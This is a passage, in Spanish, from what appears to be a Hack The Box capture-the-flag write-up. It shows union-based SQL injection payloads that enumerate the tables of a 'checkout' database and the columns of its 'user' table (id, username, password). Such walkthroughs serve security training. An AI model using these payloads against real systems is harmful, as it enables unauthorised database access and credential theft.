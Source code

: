 ![](/assets/images/htb-writeup-shared/web18.png)

Ahora vamos a enumerar las tablas para la base de datos **checkout** `'union select 1,group_concat(table_name),3 from information_schema.tables where table_schema='checkout'-- -`

Y vemos 2

![](/assets/images/htb-writeup-shared/web19.png)

Ahora vamos a enumerar las columnas para la tabla **user** `'union select 1,group_concat(column_name),3 from information_schema.columns where table_schema='checkout' and table_name='user'-- -`

Y vemos **Id,username,password**
